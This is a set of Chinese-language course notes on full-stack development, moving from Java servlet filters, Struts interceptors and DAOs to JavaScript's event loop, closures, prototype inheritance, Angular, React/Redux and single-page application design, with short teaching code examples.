接着建立 BookFilter，创建 ${CATALINA_HOME}/webapps/ROOT/WEB-INF/classes/BookFilter.java，写入：

```java
import javax.servlet.*;
import java.io.IOException;
import java.util.logging.Logger;
import java.util.concurrent.atomic.AtomicInteger;

public class BookFilter implements Filter {
    private Logger logger = Logger.getLogger(BookFilter.class.getName());
    private AtomicInteger count = new AtomicInteger();
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        logger.info("Add book accessing count...");
        int current = this.count.incrementAndGet();
        request.setAttribute("count", current);
        chain.doFilter(request, response);
    }
}
```

在这个过滤器中 ，我们先打印了日志，接着创建了一个计数器，使用 AtomicInteger 而不是 int 这个原语类型的目的是为了正确处理在多线程情况下并发计数器的情形，再把当前对 books 请求的计数放到 request 中。

编译一下：

```
javac AuthFilter.java BookFilter.java -classpath ${CATALINA_HOME}/lib/servlet-api.jar
```

我们再回到曾经建立的 ${CATALINA_HOME}/webapps/ROOT/book.jsp，在页面尾部添加一行输出计数器的计数：

```java
Count: ${count}
```

最后在浏览器中访问 http://localhost:8080/books?category=art，你将看到类似这样的输出，并且每刷新一次页面，这个计数就加 1。

```
Category name: art, date: 2019-8-11 Count: 1
```

再回到控制台，你应该能看到类似这样的日志，从中可见过滤器的调用顺序：

```s
11-Aug-2019 11:08:50.131 INFO [http-nio-8080-exec-1] AuthFilter.doFilter Check permission...
11-Aug-2019 11:08:50.132 INFO [http-nio-8080-exec-1] BookFilter.doFilter Add book accessing count...
```

好，动手实践暂时就先到这里。就如同上面的例子这样，过滤器也是可以配置映射关系的，并且，在过滤器中，我们可以实现一组不同类型请求的处理所共有的逻辑。学到这里，不知道你有没有联想到一个相关的，且在这一讲之前我们才学过的模式？对，它就是 AOP，过滤器本质上就是面向切面编程这种模式的一种子模式。

## Struts 的拦截器

Struts 提供了拦截器（Interceptor）这样功能更加强大的组件，对于一些常见的功能，它已经预置了数十种常见的拦截器，比如异常、参数验证、文件上传和国际化支持等等，既包括预处理（Action 执行之前），也包括后处理（Action 执行之后）的拦截逻辑，只需要配置使用即可。

举例来说，如果定义了这样一个的拦截器栈，它包含了两个拦截器，一个是异常拦截器，一个是校验拦截器，并且配置了 ping 方法不需要经过拦截器的校验，这两个拦截器组合成为 commonInterceptorStack 这个拦截器栈：

```xml
<interceptor-stack name="commonInterceptorStack">
  <interceptor-ref name="exception"/>
  <interceptor-ref name="validation">
    <param name="excludeMethods">ping</param>
  </interceptor-ref>
</interceptor-stack>
```

配置完毕后就可以使用了，对于一个控制器层的 bookAction，我们规定请求必须经过一个 alias 拦截器，和刚才定义的 commonInterceptorStack 拦截器栈：

```xml
<action name="bookAction" class="BookAction">
  <interceptor-ref name="alias"/>
  <interceptor-ref name="commonInterceptorStack"/>
</action>
```

## 数据访问对象

我们在 [第 08 讲] 中介绍持久层框架的时候，已经谈到了 DAO（Data Access Object），今天让我们进一步学习一下。

**DAO 本质上是能够为某种特定数据持久化的机制提供抽象结构的对象**。虽然我们谈论 DAO 基本上是默认这里的数据持久化的介质就是数据库，但需要明确的是，实际上并没有这样的约束。换句话说，DAO 可以把数据持久化到数据库中，但也可以持久化到文件里，甚至会以网络请求的方式把数据持久化到某个远程服务中去。

数据访问对象最大的好处依然是我们反复强调的“解耦”，业务代码不需要关心数据是怎样持久化的。在测试其上方的 Service 层的时候，只要把实际的 DAO 替换成“桩代码”，就可以不实际执行持久化逻辑而完成测试；如果哪一天希望更换 DAO 的实现，例如把关系数据库存储改为更一般的键值存储，其上方的 Service 层不修改逻辑就可以实现。

但事物都有两面性，DAO 也不是完美的，比如说，**多加一层就会从额外的抽象层次上带来软件的复杂性，它经常和“抽象泄露（Leaky Abstraction）”这样的现象联系起来**。

这里是说，理想状况下，程序员只需要关心“某一抽象层之上”的逻辑和调用，这也是我们分层的一大好处。可是，现实总是和理想有距离的，一旦抽象之下的部分出错，程序员很可能必须去了解和深入这部分的内容，这就违背了抽象分层的初衷，但是在很多情况下这是不可避免的，这也是整个软件体系日渐复杂，我们需要学习的内容越来越多的原因之一。

# 重点！！！！！

- **第一，技术是分级的，具体说，是分短命和长寿的，也是分表面和本质的。我们要学习各种技术，但是我们要把足够的精力放到长寿的技术以及技术本质上。**

- **第二，基础知识和能力的训练需要长期坚持，无论是在工作中，还是工作以外。**

<h1 id="chapter14">14 | 别有洞天：从后端到前端</h1>

## 为什么要学习前端技术？

**首先，它可以帮助你开阔眼界，为你的思维模式带来新的选项，整个全栈技术都有这样的特点，但是前端技术在这方面尤其明显。**前端技术的结构和软件其它领域有着显著的不同，技术发展极其迅速，技术之水深不见底，开源社区百花齐放。我们也将在本章中体会到前端领域所需要的不同的思维模式。

**其次，它可以帮助你形成快速原型、即时验证和独立展示演示的优势，在迅捷的反馈中设计和编程**。在我参与过的 Hackthon（黑客马拉松）数天的短期竞赛中，产品经理、程序员和数据科学家被认为是最合理的一组搭配，懂前端技术的程序员总是对互联网的用户交互、数据采集等方面特别有经验，在展示环节还可以快速地做出非常优秀的效果来。

**再次，它可以帮助你建立产品思维。**有人认为它能用来解决用户的核心问题，但实际上往往不是，解决核心问题主要还是靠后端的代码，但是前端的代码却是和用户最贴近和交互的部分，一个优秀的前端工程师总是具备非常强烈的产品属性。

**最后，前端技术是全栈工程的必备技能**。它可以让你拍着胸脯对用户说，“这个可以做”，“这个不能做”，而不是说，“我去和前端确认一下这个交互能不能实现”。产品做出来，也不至于成为一个号称装着高性能引擎，却裹着破布毯子的“豪车”。

因此我的建议是：**职业生涯不宜过早做过细的规划，除了技术深度，也需要在技术广度上积累，等到一定程度以后再来选择自己的发展分支路线。**而且，某些特定技术领域，在程序员给自己打标签的时候，压根还没有发展成熟，等到发展起来，时机真正到来的时候，只有那些原本“不偏食”的优秀的程序员才能够脱颖而出。

## 思维模式的转变

如果你具备后端开发的经验，刚刚开始从后端转向前端，你可能会发现，有很多想当然的理解，不再适用，有很多想当然的解决方法，也不再有效。

## 1. 应用事件驱动编程

来看这样一段 JavaScript 代码：

```js
console.log("1");

setTimeout(function timeout() {
    console.log("2");
}, 0);

setTimeout(function timeout() {
    console.log("3");
}, 5000);

console.log("4");
```

代码中有四处打印，setTimeout 接受两个参数，第一个参数表示调用逻辑，第二个参数表示等待多少毫秒后再来执行该调用逻辑。

在 Chrome 中，任意一个页面打开浏览器的开发者工具，在 Console 标签下，把上面的代码复制粘贴进去，于是我们看到这样的输出：

```
1
4
undefined
2
3
```

在写后端代码的时候，你可能已经习惯了使用进程（process）或者线程（thread）来对付需要并行处理的逻辑，Java 如此，Python 也如此。进程或线程可以说是“真并行”，虽然微观地看，它们可能会顺序占用 CPU 时间片，但宏观地看，代码在二者中执行互不阻塞，是并行执行的。

而在 JavaScript 中，在浏览器中，你看到眼花缭乱的效果和变化，却是“假并行”，是一个彻头彻尾的“骗局”。为什么这么说？

因为浏览器中 JavaScript 代码的执行通常是单线程的（对于 Web Worker 这样的“例外”我们暂不讨论）——一个线程，一个调用栈，一次只做一件事。

具体说来，在整个 JavaScript 的世界里，引起代码运行的行为是通过事件驱动的，并且**全部是通过这唯一的一个勤奋的工作线程来执行的。那么当有事件产生的时候，这个工作线程不一定空闲，这就需要一个机制来让新产生的事件排队“等一等”**，等当前的工作完成之后，再来处理它。这个机制就是 Event Loop，这个等一等的事件，就被放在一个被称为事件（回调）队列的数据结构中。

你看，通过这种方式，JavaScript 可以让不同的任务在一个线程中完成，而整个任务编排的机制，**从代码的角度看，所有的逻辑都是通过七七八八的“异步回调”来完成的；而从程序员思维方式的角度看，以往基于线程的编程，变成了事件驱动的编程。**


上图来自 The Case of Threads vs. Events，很好地对比了两者的不同之处，其中：

对于逻辑的触发，基于线程编程需要不断地由监视线程去查询被监视线程的某一个状态，如果状态满足某个条件，则触发相应的逻辑；而事件驱动则通过事件处理器，在事件发生时执行挂载的回调逻辑。不知你是否联想起了 [第 03 讲] 中我介绍的 push 和 pull，在这里，前者正类似于 pull 的形式，而后者则类似于 push 的形式。

基于线程的方式可以阻塞线程，等待时间或某个条件满足后再继续执行；而事件驱动则相反，发送一条消息后无阻塞等待回调的发生。阻塞线程的方式对资源的消耗往往更加显著，因为无论是否执行线程都被占用，但从人直观理解的角度来说，代码更直白，更符合人对顺序执行的理解；而事件驱动的方式则相反，资源消耗上更优，但是代码的执行顺序，以及由此产生的系统状态判断变得难以预知。

请注意的是，在 JavaScript 中我们通常无法使用基于线程的编程，但是在很多情况下，例如 Java 和 Python 这些传统的后端编程语言中，我们可以混合使用基于线程和事件驱动的编程，它们是互不矛盾的。

最后，为什么 JavaScript 要被设计成单线程的，多线程难道就不行吗？最重要的原因，就是为了让整个模型简单。如果引入多线程，这里有很多问题需要解决，例如事件处理的依赖关系（多线程的事件处理就不再是简单队列的挨个处理了），例如资源的共享和修改（无锁编程不再有效，必须要考虑同步等加锁机制了），整个系统会变得极其复杂，不只是对于浏览器的开发者而言，对前端的开发者也一样。

另外，需要说明的是，浏览器的 JavaScript 执行是单线程的，但不代表浏览器是单线程的。浏览器通常还包含其它线程，比如说：

- 界面（GUI）渲染线程，这个线程的执行和上述的 JavaScript 工作线程是互斥的，即二者不可同时执行；

- 事件触发线程，这个也很好理解，我们介绍过有一个神秘人物帮着往队列中放入事件（例子中的回调打印 2 和回调打印 3），这个神秘人物就是事件触发线程。

## 2. 学写声明式代码

**声明式代码和命令式代码一样，都需要设计，且都需要测试**。我见过不少工程师能够写出优秀的命令式代码，甚至已经习惯了，但是在写声明式代码的时候，却缺乏条理。

## 3. 培养交互思维

前端工程师必须具备敏感的交互思维。通常来说，前端的代码，兼具着“甲方”和“乙方”的角色：

- 对用户和前端的交互来说，客户是甲方，享受服务；前端就是乙方，提供服务。

- 对和服务端的交互来说，前端就是甲方，从服务端获得数据和服务；服务端就是乙方，提供数据和服务。

而无论是和用户，还是和服务端的交互，都是学习前端技术中需要领会的部分。**和用户的交互要求开发前端的程序员具备产品思维，而和服务端的交互则要求开发前端的程序员具备工程思维。**

一头是用户，另一头是后端工程师，前端的开发人员，在整个庞大的研发体系中，既像粘合剂，又像润滑剂，要从产品和工程两个视角去思考问题，作出判断；不但要交付实实在在的功能，要引导好的工程架构，还要给用户带来优秀的产品体验。

<h1 id="chapter15">15 | 重剑无锋，大巧不工：JavaScript面向对象</h1>

## 1. 封装

在面向对象编程中，封装（Encapsulation）说的是一种通过接口抽象将具体实现包装并隐藏起来的方法。具体来说，封装的机制包括两大部分：

- **限制对对象内部组件直接访问的机制；**

- **将数据和方法绑定起来，对外提供方法，从而改变对象状态的机制。**

直到 ES6（ECMAScript 6）以前，类（class）这个概念在 JavaScript 中其实不存在，但是 JavaScript 对函数（function）有着比一般静态语言强大得多的支持，我们经常利用它来模拟类的概念。现在，请你打开 Chrome 的开发者工具，在控制台上贴上如下代码：

```js
function Book(name) {
    this.name = name;
}
console.log(new Book("Life").name);
```

但是，这样的 name 属性，其实相当于公有属性，因为外部可以访问到，那么，我们能够实现私有属性吗？当然，请看这段代码

```js
function Book(name) {
    this.getName = () => {
        return name;
    };
    this.setName = (newName) => {
        name = newName;
    };
}
let book = new Book("Life");
book.setName("Time");
console.log(book.getName()); // Time
console.log(book.name); // 无法访问私有属性 name 的值
```

上面的代码中，有两处变化，一个是使用了 () => {} 这样的语法代替了 function 关键字，使得其定义看起来更加简洁，但是表达的含义依然是函数定义，没有区别；第二个是增加了 getName() 和 setName() 这样的存取方法，并且利用闭包的特性，将 name 封装在 Book 类的对象中，你无法通过任何其它方法访问到私有属性 name 的值。

这里介绍闭包（Closure），我想你应该听说过这个概念。**闭包简单说，就是引用了自由变量的函数。这里的关键是“自由变量”，其实这个自由变量，扮演的作用是为这个函数调用提供了一个“上下文”，**而上下文的不同，将对入参相同的函数调用造成不同的影响，它包括：

- 函数的行为不同，即函数调用改变其上下文中的其它变量，如例子中的 setName()；

- 函数的返回值不同，如例子中的 getName()。

**和闭包相对的，是一种称为“纯函数”（Pure Function）的东西，即函数不允许引用任何自由变量**。因此，和上面两条“影响”对应，纯函数的调用必须满足如下特性：

- 函数的调用不允许改变其所属的上下文；

- 相同入参的函数调用一定能得到相同的返回值。

读到这里，你是否想到了 [第 04 讲] 中我们将 HTTP 的请求从两个维度进行划分，即是否幂等，是否安全；在 [第 08 讲] 中我们对 CQRS 依然从这样两个维度进行划分，并作了分析。今天，我们还做相同的划分。

- 闭包的调用是不安全的，因为它可能改变对象的内部属性（闭包的上下文）；同时它也不是幂等的，因为一次调用和多次调用可能产生不同的结果。

- 纯函数的调用是安全的，也是幂等的。

于是，我们又一次发现，技术是相通，是可以联想和类比的。**本质上，它们围绕的都是一个方法（函数）是否引用和改变外部状态的问题**。闭包本身是一个很简单的机制，但是，它可以带来丰富的语言高级功能特性，比如高阶函数。

## 2. 继承

在面向对象编程中，继承（Inheritance）指的是一个对象或者类能够自动保持另一个对象或者类的实现的一种机制。我们经常讲的子类具备父类的所有特性，只是继承中的一种，叫做类继承；其实还有另一种，对象继承，这种继承只需要对象，不需要类。

在 ES6 以前，没有继承（extends）关键字，JavaScript 最常见的继承方式叫做**原型链继承**。原型（prototype）是 JavaScript 函数的一个内置属性，指向另外的一个对象，而那个对象的所有属性和方法，都会被这个函数的所有实例自动继承。

因此，当我们对那个原型指向的对象做出任何改变，这个函数的所有实例也将发生相同的改变。这样原型的设计在常见的静态语言中并不常见。当然，它在实现的效果上和静态语言中的“类属性 / 类方法”有一点儿相似。

```js
function Base(name) {
    this.name = name;
}
function Child(name) {
    this.name = name;
}
Child.prototype = new Base();

var c = new Child("Life");
console.log(c.name); // "Life"
console.log(c instanceof Base); // true
console.log(c instanceof Child); // true
```

请看上面的例子，通过将子类 Child 的原型 prototype 设置为父类的对象，就完成了 Child 继承 Base 的关联，之后我们再判断 Child 的对象 c，就发现它也是 Base 的对象。请注意这样两个要点：

- 设置 prototype 的语句一定要放到 Base 和 Child 两个构造器之外；

- 并且要放在实例化任何子类之前。

你再仔细想想的话，你还会发现原型链继承有一个解决不了的问题，即父类的构造方法如果包含参数，就无法被完美地继承下来。比如上例中的 name 构造参数，传入后赋值给对象的操作不得不在子类中重做了一遍。于是，我们引出另一种常见的 JavaScript 实现继承的方式——**构造继承**。

```js
function Base1(name) {
    this.name = name;
}
function Base2(type) {
    this.type = type;
}
function Child(name, type) {
    Base1.call(this, name); // 让 this 去调用 Base1，并传入参数 name
    Base2.call(this, type);
}

var c = new Child("Life", "book");
console.log(c.name); // "Life"
console.log(c instanceof Base1); // false
console.log(c instanceof Child); // true
```

你看，这种方法就能够保留父类对于构造器参数的处理逻辑，并且，我们居然还不知不觉地实现了**多重继承**！但是，缺点也很明显，使用 instanceof 方法判断的时候，发现子类对象 c 并非父类实例，并且，当父类的 prototype 还有额外属性和方法的时候，它们也无法通过构造继承被自动搬到子类里来。

## 3. 多态

在面向对象编程中，多态（Polymorphism）指的是同样的接口，有着不同的实现。在 JavaScript 中没有用来表示接口的关键字，但是通过在不同实现类中定义同名的方法，我们可以轻易做到多态的效果，即同名方法在不同的类中有不同的实现。而由于没有类型和参数的强约束，它的灵活性远大于 Java 等静态语言。

## 理解对象创建

在对面向对象的三大特征有了一定的理解之后，我们再来看看实际的对象创建。你可能会说，对象创建不是一件很简单的事儿吗，有什么可讲的？

别急，JavaScript 和一般的静态语言在对象创建上有着明显的不同，JavaScript 奇怪的行为特别多，还是让我们来看看吧。

在 Java 等多数静态语言中，是使用 new 关键字加基于类名的方法调用来创建对象，但是如果不使用 new 关键字，只使用基于类名的方法调用，则什么都不是，编译器直接报错。但是 JavaScript 不同，我们对于类的概念完全是通过强大的函数特性来实现的，先看下面这个容易混淆函数调用和对象创建的例子：

```js
function Book(name) {
    this.name = name;
    return this;
}
console.log(new Book("Life").name); // 输出 Life
console.log(Book("Life").name); // 也输出 Life
```

你看，在 Book() 中，我们最终返回了 this，这就让它变得模糊，这个 Book() 到底是类的定义，还是普通函数（方法）定义？

- 代码中使用 this 关键字来给对象自己赋值，看起来 Book 应该是类，那么 Book() 其实就是类的构造器，而这个赋值是完成对象创建的一部分；

- 可是它居然又有返回（return 语句），那么从这个角度看，Book 应该是普通函数定义，函数调用显式返回了一个对象。

是，我们从上述最下面的两行代码中看到，无论使用 new 来创建对象，还是不使用 new，把它当成普通方法调用，都能够获得对象 name 属性的值“Life”，因此看起来用不用 new 似乎没有区别嘛？

其实不然，没有区别只是一个假象。JavaScript 是一个特别善于创造错觉的编程语言，有许多古怪无比“坑”等着你去踩，而这只是其中一个。我们要来进一步理解它，就必须去理解代码中的 this，众所周知 this 可以看做是对象对于它自己的引用，那么我们在执行上述两步操作时，this 分别是什么呢？

```js
function Book(name) {
    console.log(this);
    this.name = name;
    return this;
}
new Book("Life"); // 打印 Book {}
Book("Life"); // 打印 Window { ... }
window.Book("Life") // 打印 Window { ... }
```

在这段代码中，我在 Book() 内部把 this 打印出来了。原来，在使用 new 的时候，this 是创建的对象自己；而在不使用 new 的时候，this 是浏览器的内置对象 window，并且，这个效果和使用 window 调用 Book() 是一样的。也就是说，**当我们定义了一个“没有归属”的全局函数的时候，这个函数的默认宿主就是 window。**

实际上，上述例子在使用 new 这个关键字的时候，JavaScript 引擎就帮我们做了这样几件事情。

第一件，创建一个 Book 的对象，我们把它叫做 x 吧。

第二件，绑定原型：x.proto = Book.prototype。

第三件，指定对象自己：this = x，并调用构造方法，相当于执行了 x.Book()。

第四件，对于构造器中的 return 语句，根据 typeof x === ‘object’ 的结果来决定它实际的返回：

- 如果 return 语句返回基本数据类型（如 string、boolean 等），这种情况 typeof x 就不是“object”，那么 new 的时候构造器的返回会被强制指定为 x；

- 如果 return 语句返回其它类型，即对象类型，这种情况 typeof x 就是“object”，那么 new 的时候会遵循构造器的实际 return 语句来返回。

前面三件其实很好理解，我们的试验代码也验证了；但是第四件，简直令人崩溃对不对？这是什么鬼设计，**难道创建对象的时候，还要根据这个 return 值的类型来决定 new 的行为**？

很遗憾，说对了……我们来执行下面的代码：

```js
function Book1(name) {
    this.name = name;
    return 1;
}
console.log(new Book1("Life")); // 打印 Book1 {name: "Life"}

function Book2(name) {
    this.name = name;
    return [];
}
console.log(new Book2("Life")); // 打印 []
```

你看，Book1 的构造器返回一个基本数据类型的数值 1，new 返回的就是 Book1 的实例对象本身；而 Book2 的构造器返回一个非基本数值类型 []（数组），new 返回的就是这个数组了。

正是因为这样那样的问题，ES5 开始提供了严格模式（Strict Mode），可以让代码对一些可能造成不良后果的不严谨、有歧义的用法报错。

在实际项目中，我们应当开启严格模式，或是使用 TypeScript 这样的 JavaScript 超集等等替代方案。写 JavaScript 代码的时候，心中要非常明确自己使用 function 的目的，是创建一个类，是创建某个对象的方法，还是创建一个普通的函数，并且在命名的时候，根据项目的约定给予清晰明确的名字，看到名字就立即可以知道它是什么，而不需要联系上下文去推导，甚至猜测。

<h1 id="chapter16">16 | 百花齐放，百家争鸣：前端MVC框架</h1>

## 前端 MVC 的变革

让我们来回想一下，在 [第 07 讲] 中，介绍过的 MVC 架构。实际上，我们可以把前端的部分大致归纳到视图层内，可它本身，却还可以按照 MVC 的基本思想继续划分。这个划分，有些遵循着 MVC 两个常见形式之一，有些则遵循着 MVC 的某种变体，比如 MVVM。

我们都知道前端技术的基础是 HTML、CSS 和 JavaScript，可随着技术的发展，它们在前端技术分层中的位置是不断变化的。

在前端技术发展的早期，Ajax 技术尚未被发明或引进，页面是一次性从服务端生成的，即便有视图层的解耦，页面聚合也是在服务端生成的（如果忘记了服务端的页面聚合，请回看 [第 09 讲]）。也就是说，整个页面一旦生成，就可以认为是静态的了。

在这种情况下，如果单独把前端代码的组织也按照 MVC 架构来划分，你觉得 HTML 到底算模型层还是视图层？

- 有人说 ，是模型层，因为它承载了具备业务含义的文本和图像等资源，是数据模型的载体，它们是前端的血和肉；

- 有人说，是视图层，因为它决定了用户最后看到的样子，至于 CSS，它可以决定展示的“部分”效果，但却不是必须的（即便没有 CSS，页面一样可以展示）。

其实，这两种说法都部分正确。毕竟，如果采用服务端聚合，等浏览器收到了响应报文，从前端的角度来看，模型和呈现实际已经融合在一起了，很难分得清楚。

等到 Ajax 技术成熟，客户端聚合发展起来了，情况忽然就不一样了。代表视图的 HTML 模板和代表数据的 JSON 报文，分别依次抵达浏览器，JavaScript 再把数据和模板聚合起来展示，这时候这个过程的 MVC 分层就很清晰了。

曾经 jQuery 是最流行的 JavaScript 库，但是如今随着前端业务的复杂性剧增，一个单纯的库已经不能很好地解决问题，而框架开始扮演更重要的地位，比如大家常常耳闻的前端新三驾马车 Vue.js, Anuglar 和 React。

## Angular

对于现代 MVC 框架的介绍，我将用两个框架来举例。前端框架那么多，希望你的学习不仅仅是知识的堆砌，而是可以领会一些有代表性的玩法，能有自己的解读。第一个是 Angular，我们来看看它的几个特性。

## 1. 双向绑定

曾经，写前端代码的时候，数据绑定都是用类似于 jQuery 绑定的方式来完成的，但是，**有时候视图页面的数值变更和前端模型的数据变更，这两个变更所需的数据绑定是双向的，这就会引发非常啰嗦的状态同步：**

- **数据对象发生变更以后，要及时更新 DOM 树；**

- **用户操作改变 DOM 树以后，要回头更新数据对象。**

比方说，在 JavaScript 中有这样一个数据对象，一本书：

```js
book = {name: "Steve Jobs Biography"}
```

在 HTML 中有这样的 DOM 元素：

```html
<input id="book-input" type="text" ... />
<label id="book-label" ...></label>
```

我们需要把数据绑定到这样的 DOM 对象上去，这样，在数据对象变更的时候，下面这两个 DOM 对象也会得到变更，从而保证一致性：

```js
$("#book-input").val(book.name);
$("#book-label").text(book.name);
```

相应地，我们还需要些绑定语句来响应用户对 book-input 这个输入框的变更，同步到 book-label 和 JavaScript 的 book 对象上去：

```js
$("#book-input").keydown(function(){
    var data = $(this).val();
    $("book-label").text(data);
    book.name = data;
});
```

你可以想象，当这样的关联变更很多的时候，类似的样板代码该有多少，复杂度和恶心程度该有多高。

于是 Angular 跳出来说，让我们来使用双向绑定解决这个问题吧。无论我们“主动”改变模型层的业务对象（book 对象），还是视图层的这个业务对象的展示（input 标签），都可以自动完成模型层和视图层的同步。

实现方法呢，其实只有两步而已。首先模型层需要告知 DOM 受到哪个控制器控制，比如这里的 BookController，然后使用模板的方式来完成从模型到视图的绑定：

```html
<div ng-app ng-controller="BookController">
    <input type="text" value="{{book.name}}" />
    <label>{{book.name}}</label>
</div>
```

接着在 JavaScript 代码中定义控制器 BookController，将业务对象 book 绑定到 $scope 以暴露出去：

```js
function BookController($scope) {
    $scope.book = {name : "Steve Jobs Biography"};
}
```

你看，这样 label、input 和 $scope.book 这三者就同步了，这三者任一改变，另两者会自动同步，保持一致。**这大大简化了复杂绑定行为的代码，尽可能地将绑定的命令式代码移除出去，而使用声明式代码来完成绑定的关联关系的定义。**

## 2. 依赖注入

你可能还记得我们在 [第 11 讲] 中介绍过依赖注入，在前端，借助 Angular 我们也可以做到，比如下面的例子：

```js
function BookController($scope, $http) {
  $http.get('/books').success(function(data) {
    $scope.books = data;
  });
}
```

你看，无论是 $scope 还是 $http 模块，写业务代码的程序员都不需要关心，只需要直接使用即可，它们被 Angular 管理起来并在此注入。这个方法，是不是很像我们介绍过的 Spring 对对象的管理和注入？

## 3. 过滤器

注意，这是 Angular 的过滤器，并不是我们之前讲到的 Servlet Filter。

过滤器是个很有趣的特性，让人想起了管道编程。你大概也发现 Angular 真是一个到处“抄袭”，哦不，是“借鉴”各种概念和范型的东西，比如依赖注入抄 Spring，标签定义抄 Flex，过滤器抄 Linux 的管道。从一定角度来说，还是那句话，技术都是相通的。比如：

```
{{ book.name | uppercase | replace:' ':'_'  }}
```

你看，这就是把书名全转成大写，再把空格用下划线替换。我觉得这”管道“用得就很酷了。**它的一大意义是，业务对象到视图对象的转换，被这样简单而清晰的方式精巧地解决了。**

## React + Redux

这两个放到一起说，是因为 React 其实只是一个用户界面的库，它的组件化做得特别出色，但本身的贡献主要还是在视图层；而 Redux 是一个 JavaScript 状态容器，提供可预测的状态管理能力。有了 Redux，才能谈整个 MVC 框架。

## 1. JSX

没有 JSX 的话 React 也能工作，但是如果没有 JSX，React 会变得索然无味许多，JSX 是 React 带来的最有变革意义的部分。比如这样一个简单的 JSX 文件：

```jsx
class BookInfo extends React.Component {
  render() {
    return (
      <div>{this.props.name}</div>
    );
  }
}

ReactDOM.render(
  <BookInfo name="Steve Jobs Biography" />,
  document.getElementById('book-info')
);
```

前半部分定义了一个输出图书信息的组件 BookInfo，内容很容易理解；后半部分则是将这个组件渲染到指定的 DOM 节点上。
{this.props.name}
这个东西，如果你初次见到，可能会感到新奇：

- 看起来像是 HTML，可是居然放在 JavaScript 代码里返回了；

- 也没有使用双引号，因此看起来也不像是单纯的字符串。

没错，它二者都不是，而是 JavaScript 的一种语法扩展。

我们总在说解耦，于是我们把用于呈现的模板放到 HTML 里，把和模板有关的交互逻辑和数据准备放到 JavaScript 里（这被称为“标记和逻辑的分离”）。

可是越来越多的程序员发现，**这样的解耦未必总能带来“简化”，原因就在呈现模板本身，还有为了最终呈现而写的渲染逻辑，二者有着紧密的联系，脱离开模板本身的渲染逻辑，没有存在的价值，也难以被阅读和理解。**

既然这样，那为什么还要把它们分开呢？

原来，它们分开的原因并不仅仅是为了分层解耦本身，还因为当时承载技术发展的限制。还记得我们谈到过的声明式和命令式代码的区别吗？两种不同的编程范式，由于技术等种种限制，就仿佛井水不犯河水，二者采用的技术是分别发展的。

如今，大胆的 JSX 反其道而行，把呈现和渲染逻辑放在了一起，并且，它还没有丢掉二者自身的优点。比如说，整体看 JSX 内跑的是 JavaScript 代码，但是嵌入在 JSX 中的 HTML 标签依然可以以它原生的结构存放，支持 JSX 的开发工具也可以实时编译并告知 HTML 标签内的错误。换言之，JSX 中的“HTML 标签”它依然是具有结构属性的 HTML，而不是普通字符串！

并且，这两者放到一起以后，带来了除了内聚性增强以外的其它好处。比如说，测试更加方便，所有的呈现代码都可以作为 JavaScript 的一部分进行测试了，这大大简化了原本需要针对 HTML 而进行单独的打桩、替换、变化捕获而变得复杂的测试过程。

## 2. Redux 对状态的管理

复杂前端程序的一大难题是对于状态的管理，本质上这种状态的不可预知性是由前端天然的事件驱动模型造成的（如有遗忘，请回看 [第 14 讲]），它试图用一种统一的模式和机制来简化状态管理的复杂性，达到复杂系统状态变化“可预测”的目的。

下面我通过一个最简单的例子，结合图示，来把这个大致过程讲清楚。


首先，最核心的部分，是图中右侧是 Store，它是唯一一个存储状态的数据来源，要获知整个系统的状态，只要把握住 Store 的状态就可以了。假设一开始存放了两本书。

在图中的最下方，由 View 来展现数据，这部分我们已经很熟悉了，根据 Store 的状态，视图会展示相应的内容。一旦 Store 的状态有了更新，View 上会体现出来，这个数据绑定后的同步由框架完成。一开始，展示的是书的数量 2。

这时，用户在 View 上点击了一个添加书本的按钮，一个如下添加书本的 Action 对象生成，发送（dispatch）给 Reducer：

```jsx
{ type: 'ADD_BOOK', amount: 1 }
```

Reducer 根据 Action 和 Store 中老的状态，来生成新的状态。它接收两个参数，一个是当前 Store 中的状态 state，再一个就是上面的这个 action，返回新的 state：

```jsx
(state = 0, action) => {
  switch (action.type) {
    case 'ADD_BOOK':
      return state + action.amount;
    default: 
      return state;
  }
};
```

于是，Store 中的 state 由 2 变成了 3，相应地，View 展示的图书数量也得到了更新。

那为什么 Redux 能将复杂的状态简化？我觉得有这么几个原因：

- 整个流程中**数据是单向流动的，状态被隔离，严格地管理起来了**，只有 Store 有状态，这就避免了散落的状态混乱而互相影响。

- 无论多么复杂的 View 上的操作或者事件，都会统一转换成若干个 Redux 系统能够识别的 Action。换句话说，**不同的操作，只不过引起 Action 的 type 不同，或者上面承载的业务数据不同。**

- Reducer 是无状态的，它是一个纯函数，但它的职责是根据 Action 和 Store 中老的状态来生成新的状态。这样，**Store 中状态的改变也只有一个来源，就是 Reducer 的操作**。

<h1 id="chapter17">17 | 不一样的体验：交互设计和页面布局</h1>

## 1. 单页面应用

SPA，Single-Page Application，即单页应用，是一种互联网应用在用户交互方面的模型。

用户打开一个页面，大部分操作都在单个页面里面完成。和传统的 MPA（Multiple-Page Application）相比，用户体验上，SPA 省去了页面跳转的突兀感受和等待时间，用户体验更加桌面化，操作迅速、切换无缝；软件架构上，SPA 可以更彻底地落实前后端分离，后端彻底变成了一个只暴露 API 的服务，将不同终端的视图层的工作，特别是页面聚合搬到前端来完成（如有遗忘请回看 [第 09 讲]）。

对于许多大型应用，SPA 和 MPA 往往是在一定程度上结合起来使用的，比如新浪微博的网页版，用户可以浏览时间线，并作出一些转发评论、媒体播放等等操作，但是也可以跳到单独的单条微博的页面去。

但 SPA 也有着先天的缺陷。比如说，网页的 SEO（Search Engine Optimization）就是一个例子，单页应用上的操作，引起页面的状态改变，很难被搜索引擎敏锐地捕获到，并使之成为“可搜索到的”，因此 SPA 页面的 SEO 需要做额外的工作，关于这部分我会在第五章中介绍一些相关知识。

再比如，浏览器上网页操纵的功能，像前进、后退的功能，也需要一些特别的技巧才能支持，毕竟，和互联网整体翻天覆地的改变相比，浏览器的核心设计一直以来都变化缓慢，而地址栏、页面控制功能等等可都不是为着 SPA 考虑的。最后，SPA 通常会伴随着大大增加的在线应用复杂程度。

## 2. 渐进式增强

**渐进式增强，即 Progressive Enhancement，强调的是可访问性，即允许不同能力的设备都能够访问网页的基本内容，使用网页的基本功能；但是，当用户使用更加先进的设备时，它能够给用户带来更强大的功能和更好的体验。**

举一个小例子，对于非常极端和基础的设备，网页可以只加载 HTML；更高级一点的设备，则可以加载 CSS；而对于多数高级设备，则还需加载 JavaScript。这三种设备都可以使用网站的核心功能，但是只有最后一类设备可以使用全部功能。当然，实际的增强效果递进未必会那么极端，对于每一个递进，可以只是部分样式，部分标签，部分脚本等等。

